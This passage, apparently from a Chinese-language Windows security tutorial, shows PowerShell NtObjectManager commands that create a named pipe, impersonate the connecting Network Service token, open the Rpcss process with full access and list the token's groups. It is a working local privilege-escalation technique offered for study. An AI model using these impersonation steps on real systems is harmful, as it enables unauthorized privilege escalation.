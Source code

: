 ```plain
$pipe = New-NtNamedPipeFile \\.\pipe\AAA2 -Win32Path
$job = Start-Job {$pipe.Listen（）}
$file = Get-NtFile \\127.0.0.1\pipe\AAA2 -Win32Path
Wait-Job $Job | Out-Null
```

这次我们模拟命名管道然后再次去请求 Rpcss 服务。这里需要注意的一点是，如果 $p 部分按照文章中的分段进行输入，那么需要在核心模式下运行，也就是需要将命令写入一个 ps1 文件然后执行。如果不想创建一个 ps1 文件，那么可以将命令写为一行。具体命令如下。

```plain
$p = Use-NtObject（$pipe.Impersonate（））{
    Get-NtProcess -ProcessId 912
}
$p.GrantedAccess
```

此时我们可以看到，通过 `Impersonate（）`进行了身份模拟，然后在该身份下执行了 `$p.GrantedAccess` 来获取该进程被赋予的访问权限，结果为 AllAccess。执行结果如图 26 所示。

![](assets/1706773615-0ea33ad37c8ae8128968cb7109248188.jpg)

图 26 获取相关权限

我们可以通过查看令牌的组列表来验证我们前面所说的 Lsass 保存的是登录会话创建的第一个令牌（因为 Rpcss 是第一个以 Network Service 运行的服务）。查看令牌的组列表命令如下。

```plain
$token = Use-NtObject（$pipe.Impersonate（））{
    Get-NtToken -Impersonation
}
$token.Groups | ? Name -Match Rpcss
```

可以看到 Rpcss 已在其中。令牌的组列表如图 27 所示。

![](assets/1706773615-35978a01f4ff11632dcca129da7a480d.jpg)
